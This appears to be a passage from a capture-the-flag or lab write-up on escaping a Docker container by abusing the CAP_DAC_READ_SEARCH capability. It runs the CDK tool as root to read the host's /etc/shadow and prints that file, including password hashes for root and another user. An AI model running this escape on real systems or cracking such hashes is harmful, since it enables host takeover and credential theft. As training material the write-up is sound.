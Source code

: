 ```
        3:rdma:/
        2:cpu,cpuacct:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        1:name=systemd:/docker/c150397ccd634de99b32847ec1df1342c8a8107f002bb12ec7460ae6aa93e726
        0::/system.slice/containerd.service
2022/07/26 21:27:42 /proc/self/cgroup file added content (compare pid 1) :
```

Notice the line `[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.`. [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#capabilities-abuse-escape) has more information: "You should check the capabilities of the container, if it has any of the following ones, you might be able to scape from it: `CAP_SYS_ADMIN`, `CAP_SYS_PTRACE`, `CAP_SYS_MODULE`, `DAC_READ_SEARCH`, `DAC_OVERRIDE`, `CAP_SYS_RAWIO`, `CAP_SYSLOG`, `CAP_NET_RAW`, `CAP_NET_ADMIN`". [Docker breakout exploit analysis](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) covers the [Shocker](http://stealth.openwall.net/xSports/shocker.c) exploit (which probably can be used instead of CDK) and explains how we can read files using this capability.

We can read files from the host:

```
(remote) root@c150397ccd63:/tmp# ./cdk_linux_amd64 run cap-dac-read-search
Running with target: /etc/shadow, ref: /etc/hostname
root:$6$9GrOpvcijuCP93rg$tkcyh.ZwH5w9AHrm66awD9nLzMHv32QqZYGiIfuLow4V1PBkY0xsKoyZnM3.AI.yGWfFLOFDSKsIR9XnKLbIY1:19066:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
sys:*:18659:0:99999:7:::
sync:*:18659:0:99999:7:::
games:*:18659:0:99999:7:::
man:*:18659:0:99999:7:::
lp:*:18659:0:99999:7:::
mail:*:18659:0:99999:7:::
news:*:18659:0:99999:7:::
uucp:*:18659:0:99999:7:::
proxy:*:18659:0:99999:7:::
www-data:*:18659:0:99999:7:::
backup:*:18659:0:99999:7:::
list:*:18659:0:99999:7:::
irc:*:18659:0:99999:7:::
gnats:*:18659:0:99999:7:::
nobody:*:18659:0:99999:7:::
systemd-network:*:18659:0:99999:7:::
systemd-resolve:*:18659:0:99999:7:::
systemd-timesync:*:18659:0:99999:7:::
messagebus:*:18659:0:99999:7:::
syslog:*:18659:0:99999:7:::
_apt:*:18659:0:99999:7:::
tss:*:18659:0:99999:7:::
uuidd:*:18659:0:99999:7:::
tcpdump:*:18659:0:99999:7:::
landscape:*:18659:0:99999:7:::
pollinate:*:18659:0:99999:7:::
usbmux:*:18849:0:99999:7:::
sshd:*:18849:0:99999:7:::
systemd-coredump:!!:18849::::::
lxd:!:18849::::::
saul:$6$19rUyMaBLt7.CDGj$ik84VX1CUhhuiMHxq8hSMjKTDMxHt.ldQC15vFyupafquVyonyyb3/S6MO59tnJHP9vI5GMvbE9T4TFeeeKyg1:19058:0:99999:7:::
```
